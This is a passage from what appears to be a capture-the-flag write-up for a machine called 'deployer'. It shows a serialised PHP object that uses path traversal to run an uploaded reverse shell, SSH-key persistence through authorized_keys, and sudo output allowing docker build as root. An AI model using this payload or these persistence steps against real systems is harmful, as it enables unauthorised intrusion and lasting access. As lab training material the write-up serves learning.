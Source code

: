 <figure><img src="../../../.gitbook/assets/image (3444).png" alt=""><figcaption></figcaption></figure>

The FTP Root is at `/srv`, meaning the reverse shell I uploaded is at `/srv/ftp/phpreverseshell.php`. We can then execute it using this serialised object:

```
O:4:"Page":1:{s:4:"file";s:48:"../../../../../../../srv/ftp/phpreverseshell.php";}
```

I had to put the file there again since something cleared it, but I did get a reverse shell in the end:

<figure><img src="../../../.gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I upgraded the shell by dropping my public SSH key into the user's `authorized_keys` folder for easy access in case I lose this initial shell.

### Sudo Docker Build -> Root

The user could run `sudo` with some commands:

```
shanah@deployer:~$ sudo -l
Matching Defaults entries for shanah on deployer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shanah may run the following commands on deployer:
    (root) NOPASSWD: /usr/bin/docker images
    (root) NOPASSWD: /usr/bin/docker build *
```
